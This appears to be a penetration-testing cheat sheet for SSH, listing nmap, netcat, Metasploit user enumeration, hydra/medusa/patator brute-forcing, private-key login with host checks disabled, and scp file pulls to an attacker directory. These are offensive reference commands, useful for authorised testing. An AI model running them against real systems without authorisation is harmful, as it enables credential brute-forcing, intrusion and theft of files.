 



# SSH Enumeration
1. Banner grabbing
  - echo | nc <TARGET> <PORT>
  - nmap -p <PORT> <TARGET>
  - nmap -sV -p <PORT> <TARGET>
  - nmap -sV -A -p <PORT> <TARGET>
2. SSH Authentication Methods
  - ssh username@<TARGET> -p <PORT>
  - ssh -v username@<TARGET> -p <PORT> PreferredAuthentications=password
  - nmap -p <PORT> --script ssh-auth-methods <TARGET>
3. Algorithm Detection
  - nmap -p <PORT> -sV --script=sshv1,ssh2-enum-algos <TARGET>
4. Vulnerability Scan
  - nmap -sV -p <PORT> --script vuln <TARGET>
5. Audit SSH
  - ssh-audit <TARGET>:<PORT>
6. CSVs Search
  - searchsploit <SSH_VERSION>
7. Enumerate users (if supported)
  - msfconsole -x "use auxiliary/scanner/ssh/ssh_enumusers; set RHOSTS <TARGET>; set RPORT <PORT>; run"


## SSH Engage
1. SSH Brute Forcing IF Supported password authentication method
  - nmap -sV -p <PORT> --script ssh-brute <TARGET>
  - hydra -l <USERNAME> -P <PASSFILE> -t <THREADS> -fv ssh://<TARGET>
  - medusa -h <TARGET> -u <USERNAME> -P <PASSFILE> -t <THREADS> -M ssh
  - patator ssh_login host=<TARGET> user=<USERNAME> password=FILE0 0=<PASSFILE> -x ignore:fgrep='Authentication failed.'
2. Test SSH login with a known private key (if available)
  - ssh -i private_key root@<TARGET> -p <PORT> -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 2>&1
3. Exploit CVEs
4. Test for keystroke timing attacks

## SSH techniques
1. SSH to TARGET
  - ssh -p <PORT> <TARGET-USERNAME>@<IP-ADDRESS> PreferredAuthentications=password
  - ssh -p <PORT> -i id_rsa <TARGET-USERNAME>@<IP-ADDRESS>
2. SSH File Transferring
  - scp <FILE-TO-SEND> <TARGET-USERNAME>@<TARGET-IP>:<TARGET-DESTINATION-DIRECTORY>
  - scp <TARGET-USERNAME>@<TARGET-IP>:<FILE-TO-SEND-TO-ATTACKER> <ATTACKER-DESTINATION-DIRECTORY>
3. Mounting a remote filesystem using SSHFS
  - sshfs <TARGET-USERNAME>@<TARGET-IP>:<FILESYSTEM-TO-MOUNT> <MOUNTPOINT>
4. SSH Persistence
  - ssh-keygen -t rsa -b 4096 -N '' -f id_rsa
  - chmod +r id_rsa
5. Bonus
  - cat id_rsa | grep -v "OPENSSH PRIVATE KEY" | base64 -d | xxd


CVE-2016–6210
CVE-2018–15473
https://www.ssh-audit.com/hardening_guides.html
https://olivierkonate.medium.com/ssh-pentesting-c68c9f5c3000
